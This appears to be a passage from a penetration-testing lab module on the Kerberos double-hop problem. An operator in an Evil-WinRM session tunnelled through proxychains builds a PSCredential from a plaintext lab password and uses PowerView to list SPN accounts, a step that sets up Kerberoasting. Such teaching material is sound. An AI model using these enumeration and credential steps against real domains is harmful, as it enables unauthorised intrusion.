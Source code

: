 ## Workaround #1: PSCredential Object

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```

If we check with `klist`, we see that we only have a cached Kerberos ticket for our current server.

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x57f8a

Cached Tickets: (1)

#0> Client: backupadm @ INLANEFREIGHT.LOCAL
    Server: academy-aen-ms0$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0xa10000 -> renewable pre_authent name_canonicalize
    Start Time: 6/28/2022 7:31:53 (local)
    End Time:   6/28/2022 7:46:53 (local)
    Renew Time: 7/5/2022 7:31:18 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x4 -> S4U
    Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

So now, let's set up a PSCredential object and try again. First, we set up our authentication.

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Now we can try to query the SPN accounts using PowerView and are successful because we passed our credentials along with the command.

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
```